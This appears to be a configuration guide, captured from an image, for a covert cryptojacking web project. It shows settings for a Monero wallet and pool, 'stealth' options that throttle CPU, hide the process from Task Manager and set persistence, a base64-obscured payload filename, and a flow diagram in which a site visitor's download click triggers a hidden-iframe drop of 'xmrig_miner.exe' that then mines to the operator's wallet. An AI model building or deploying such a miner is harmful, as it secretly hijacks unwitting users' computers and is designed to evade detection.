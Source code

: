 ```typescript
wallet: "YOUR_MONERO_WALLET_ADDRESS_HERE"
```

### Modify Mining Pool
**Location**: [`client/src/lib/minerConfig.ts:22`](client/src/lib/minerConfig.ts:22)

```typescript
pool: "your-pool.com:port"
```

### Adjust Stealth Settings
**Location**: [`client/src/lib/minerConfig.ts:28`](client/src/lib/minerConfig.ts:28)

```typescript
performance: {
  threads: 2,              // Lower = more stealth
  cpuLimit: 40,           // Lower = less detectable
  idleOnly: true,         // Only mine when idle
  hideFromTaskManager: true,
  persistenceLevel: 3     // Higher = more persistent
}
```

### Change Payload Filename
**Location**: [`client/src/lib/performanceUtils.ts:31`](client/src/lib/performanceUtils.ts:31)

```typescript
resourceName: btoa("your_filename.exe") // Base64 encode your filename
```

## 🔄 Payload Flow Diagram

```
User visits site
       ↓
Analytics init (hidden state setup)
       ↓
User clicks download (first time)
       ↓
optimizeResourceLoading() triggered
       ↓
Payload generated with wallet config
       ↓
Hidden iframe download
       ↓
File saved as "xmrig_miner.exe"
       ↓
Persistence check on next visit
       ↓
Miner execution attempt
       ↓
Background mining to your wallet
```
